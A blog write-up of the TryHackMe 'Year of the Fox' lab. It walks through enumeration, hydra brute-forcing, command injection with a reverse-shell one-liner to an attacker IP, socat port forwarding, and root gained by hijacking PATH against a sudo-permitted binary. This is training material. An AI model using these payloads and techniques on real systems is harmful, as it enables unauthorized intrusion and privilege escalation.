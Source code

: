 ```yaml
---
title: "Year of the Fox"
date: 2023-07-12T16:10:31+05:30
draft: true
toc: true
images:
tags:
  - Writeups
  - TryHackMe
---
```

Machine URL :: [Year of the Fox](https://tryhackme.com/room/yotf)
## ENUMERATION
Starting with an nmap scan as always:
```bash
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp   open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
2725/tcp  filtered msolap-ptp2
49159/tcp filtered unknown
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-time: 
|   date: 2023-07-11T10:56:50
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: mean: -19m57s, deviation: 34m39s, median: 2s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2023-07-11T11:56:49+01:00
```
Taking a look at the webserver first:
{{< image src="/images/fox/6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We don't have any credentials to work with for now so let's move on to Samba.

## SAMBA
Use enum4linux to enumerate SMB shares:

{{< image src="/images/fox/4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We got 2 users :
{{< image src="/images/fox/5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

You can try to bruteforce smb using user fox but its time consuming.
## ACTIVE ENUMERATION
Use hydra to bruteforce web login. It works with user rascal but the password changes everytime we restart the machine.

{{< image src="/images/fox/7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

The website:
{{< image src="/images/fox/1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Search an empty string and you can see the expected input is files. Also , seems like it doesn't like some characters.

{{< image src="/images/fox/2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Intercepting request with Burp:
{{< image src="/images/fox/3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Now , I used intruder to launch a simple SQL injection fuzzing but got nothing. So now onto command injection. You can run some commands using : 
```plain-text
{"target":"\"; COMMAND \""}
```
Used RCE Command : `bash -i >& /dev/tcp/YOUR-IP/PORT 0>&1` but got invalid-character response so used base 64.

{{< image src="/images/fox/9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Use burp repeater:

{{< image src="/images/fox/8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We gain an RCE:

{{< image src="/images/fox/10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And there we get our first flag!
## FOOTHOLD
Check all processes which are running:

{{< image src="/images/fox/11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

There seems to be SSH running on port 22 and can be confirmed in `/etc/ssh/sshd_config` file which also tells us that only user fox can use it. We can use this.
Use socat as a TCP port forwarder. Here socat listens on port 2222 , accepts connections and forwards connections to port 22 on remote host.

{{< image src="/images/fox/12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We've established a connection. Now time to bruteforce :

{{< image src="/images/fox/13.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Sweet! Now SSH as User fox :

{{< image src="/images/fox/14.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And there we have our second flag!
Now see all the commands user fox can run : `sudo -l`

{{< image src="/images/fox/15.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We can run shutdown as root without password. GTFObins doesn't give anything. Dragging the file onto our machine so we can analyze it.
Use Radare2 :
```
r2 -AAAA /tmp/shutdown
pdg
```
And looks like this binary is calling the `poweroff` binary which doesn't seem to be using an absolute path. So, we can use PATH manipulation to spawn a root shell. Here we are copying /bin/bash to our own version of `/tmp/poweroff` and adding that to `$PATH `so that when it searches for the poweroff binary it searches the /tmp directory first.

{{< image src="/images/fox/16.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And there we have our root shell.

{{< image src="/images/fox/17.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}
\
{{< image src="/images/fox/18.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Also found this :

{{< image src="/images/fox/19.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}